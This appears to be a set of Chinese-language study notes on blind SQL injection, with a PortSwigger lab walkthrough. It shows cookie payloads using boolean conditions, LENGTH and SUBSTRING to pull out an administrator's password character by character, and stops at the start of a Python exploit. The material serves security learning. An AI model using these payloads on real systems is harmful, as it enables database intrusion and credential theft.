 當處理包含 `TrackingId` cookie 的請求時，應用程式使用 SQL 查詢語句來確定這是否為已知使用者：
`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

此查詢語句容易受到 SQL 注入攻擊，但查詢語句的結果不會返回給使用者。然而，應用程式會根據查詢語句是否返回任何資料而表現不同。如果您提交一個被識別的 `TrackingId`，查詢語句會返回資料，您會在回應中收到「歡迎回來」訊息。

這種行為足以利用盲注 SQL 注入漏洞。您可以透過根據注入的條件有條件地觸發不同的回應來擷取資訊。

要了解此攻擊的工作原理，假設依次發送了包含以下 `TrackingId` cookie 值的兩個請求：

```SQL
…xyz' AND '1'='1 
…xyz' AND '1'='2
```

* 第一個值導致查詢語句返回結果，因為注入的 `AND '1'='1` 條件為真。因此，顯示「歡迎回來」訊息。
* 第二個值導致查詢語句不返回任何結果，因為注入的條件為假。「歡迎回來」訊息不會顯示。

這讓我們能夠確定任何單一注入條件的答案，並一次提取一部分資料。

例如，假設有一個名為 `Users` 的資料表，其欄位為 `Username` 和 `Password`，還有一個名為 `Administrator` 的使用者。您可以透過發送一系列輸入來逐個字元測試密碼，從而確定此使用者的密碼。

要做到這一點，從以下輸入開始：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

這會返回「歡迎回來」訊息，表示注入的條件為真，因此密碼的第一個字元大於 `m`。

接下來，我們發送以下輸入：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

這不會返回「歡迎回來」訊息，表示注入的條件為假，因此密碼的第一個字元不大於 `t`。

最終，我們發送以下輸入，它返回「歡迎回來」訊息，從而確認密碼的第一個字元是 `s`：
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`

我們可以繼續此過程，系統性地確定 `Administrator` 使用者的完整密碼。

`SUBSTRING` 函數在某些類型的資料庫中稱為 `SUBSTR`。更多詳細資訊請參閱 [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)。

* **Lab: [Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
  1. 題目敘述說明會將 Cookie 傳送到 SQL 進行查詢，且存在 SQLi 漏洞。它不會回傳 SQL 查詢結果，但如果查詢到任何一筆資料，將在頁面顯示「Welcome back」。需找到 `administrator` 使用者的密碼並登入以通關。
  2. 以下將以 `xyz` 表示 Cookie 中 `TrackingId` 的值
  3. 確認 Cookie 中 `TrackingId` 的值存在盲注 SQL 注入漏洞
      ```SQL
      xyz' AND '1'='1
      xyz' AND '1'='2
      ```
  4. 判讀 `administrator` 使用者的密碼長度
      ```SQL
      xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=3)='a
      ```
      經過多次修改長度值，得知密碼長度為 20
  5. 使用 Payload 破解密碼的第一位：`xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), 1, 1) > 'm`
  6. 寫 Exploit（請自行更改 Cookie、subdomain 等值）：
      ```python=
      import requests
      import urllib3
